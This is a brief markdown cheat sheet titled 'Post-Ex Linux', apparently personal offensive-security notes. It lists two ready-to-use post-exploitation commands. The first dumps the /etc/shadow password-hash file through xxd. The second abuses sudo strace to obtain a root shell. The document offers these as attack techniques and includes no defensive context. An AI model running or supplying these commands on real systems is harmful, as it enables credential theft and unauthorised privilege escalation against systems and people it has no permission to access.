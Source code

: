 # Post-Ex Linux

## **Hash dump**

```bash
sudo xxd /etc/shadow | xxd -r
```

---

## **Strace root**

```bash
sudo strace -o /dev/null /bin/sh
```